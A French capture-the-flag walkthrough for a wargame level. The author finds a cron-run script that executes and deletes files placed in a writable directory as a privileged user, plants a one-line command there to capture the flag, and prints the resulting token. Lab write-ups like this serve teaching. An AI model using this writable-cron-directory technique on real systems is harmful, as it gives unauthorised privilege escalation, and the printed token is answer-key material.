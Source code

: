 Je streamline ma procédure d'identification : 

```
$ id && pwd && ls -la
uid=2005(level05) gid=2005(level05) groups=2005(level05),100(users)
/home/user/level05
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile
```

Rien de ce côté. Je regarde donc comme les premiers level au niveau des fichiers :

```
$ find / -user level05 2>/dev/null
/proc/3740
/proc/3740/task
/proc/3740/task/3740
/proc/3740/task/3740/attr
...
```

Je filtre le bruit que m'apporte le dossier `/proc` avec :

```
$ find / -user level05 2>/dev/null | grep -v proc
$
```

Mais n'obtiens rien, je regarde donc du côté du `flag05` :

```
$ find / -user flag05 2> /dev/null | grep -v proc
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

Je tente de `cat` les deux fichiers :

```
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done

$ cat /rofs/usr/sbin/openarenaserver
cat: /rofs/usr/sbin/openarenaserver: Permission denied
```

Je commente le script trouvé ci-dessous : 

```bash
#!/bin/sh

# For each file (as $i) in /opt/openarenaserver/
for i in /opt/openarenaserver/* ; do
		# With a CPU limit for 5 secondes
        (ulimit -t 5; bash -x "$i") # Execute the file $i
        rm -f "$i" # Delete the file $i
done
```

On peut donc en déduire que ce script itère sur tout les fichiers qui se trouvent dans `/opt/openarenaserver/`, les exécute avec un temps maximum alloué de 5 secondes, puis les supprimes.

Je ne peux pas le lancer manuellement :

```
$ /usr/sbin/openarenaserver
bash: /usr/sbin/openarenaserver: Permission denied
```

Je regarde dans le dossier `/opt/openarenaserver/` : 

```
$ ls -la /opt/openarenaserver/
total 0
drwxrwxr-x+ 2 root root 40 Apr  1 17:01 .
drwxr-xr-x  1 root root 60 Apr  1 17:01 ..
```

Il est vide, ce qui pourrait signifier soit qu'il n'y a jamais rien eu dedans, soit que le programme a déjà été lancé. Je créé un fichier à l'intérieur de ce dossier afin de pouvoir checker si j'arrive à lancer le script d'origine.

```
$ touch /opt/openarenaserver/test
$ ls -la /opt/openarenaserver/
total 0
drwxrwxr-x+ 2 root    root    60 Apr  1 20:27 .
drwxr-xr-x  1 root    root    60 Apr  1 17:01 ..
-rw-rw-r--+ 1 level05 level05  0 Apr  1 20:27 test
```

J'ai les droits de créer ce fichier. Il devrait donc être supprimé si le script s'exécute. Je vais donc me pencher d'abord sur comment l'exécuter, puis, si je peux m'en servir pour obtenir le flag.

D'abord, je remarque que, tel les précédents niveaux, le script est exécuté en tant que `flag05`, ce qui signifie qu'il peut exécuter `getflag`.

```
$ ls -la /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

Lors de mes observations autour des permissions, j'observe que mon fichier test à disparu (~2 minutes plus tard) dans le dossier où le script exécute puis supprime :

```
$ ls -la /opt/openarenaserver/
total 0
drwxrwxr-x+ 2 root root 40 Apr  1 20:28 .
drwxr-xr-x  1 root root 60 Apr  1 17:01 ..
```

J'en déduis qu'il est lancé automatiquement, probablement par un CRON.
Si c'est le cas, alors je ne peux pas le lancer manuellement, et n'aurais donc pas le retour `stdout` du programme.

Si je veux qu'il exécute getflag, alors il faudra qu'il le stocke dans un fichier que je peux lire.

J'écris donc le script suivant `"getflag > /tmp/flag"` et le pipe dans un fichier bash que le script du CRON va exécuter. Cela devrait stocker le résultat de `getflag` dans `/tmp/flag`.

```
$ echo "getflag > /tmp/flag" > /opt/openarenaserver/pwned.sh
```

Je n'ai pas d'information sur le CRON, une trentaine de seconde plus tard, j'obtiens :

```
$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
